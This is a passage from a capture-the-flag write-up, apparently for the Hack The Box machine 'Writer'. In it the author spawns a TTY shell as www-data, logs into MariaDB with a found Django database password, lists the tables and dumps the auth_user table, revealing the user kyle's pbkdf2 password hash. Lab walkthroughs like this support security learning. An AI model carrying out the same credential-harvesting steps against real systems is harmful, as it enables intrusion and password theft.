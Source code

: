 We can now access the MySQL database, finding out the hashed password of the user kyle

```bash
www-data@writer:/$ /usr/bin/script -qc /bin/bash /dev/null 
/usr/bin/script -qc /bin/bash /dev/null

www-data@writer:/$ mysql -u djangouser -D dev -p
mysql -u djangouser -D dev -p
Enter password: DjangoSuperPassword

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 67
Server version: 10.3.29-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [dev]> SHOW DATABASES
SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| dev                |
| information_schema |
+--------------------+
2 rows in set (0.000 sec)

MariaDB [dev]> SHOW TABLES;
SHOW TABLES;
+----------------------------+
| Tables_in_dev              |
+----------------------------+
| auth_group                 |
| auth_group_permissions     |
| auth_permission            |
| auth_user                  |
| auth_user_groups           |
| auth_user_user_permissions |
| django_admin_log           |
| django_content_type        |
| django_migrations          |
| django_session             |
+----------------------------+
10 rows in set (0.000 sec)

MariaDB [dev]> SELECT * FROM auth_user
SELECT * FROM auth_user;
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
| id | password                                                                                 | last_login | is_superuser | username | first_name | last_name | email           | is_staff | is_active | date_joined                |
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
|  1 | pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A= | NULL       |            1 | kyle     |            |           | kyle@writer.htb |        1 |         1 | 2021-05-19 12:41:37.168368 |
```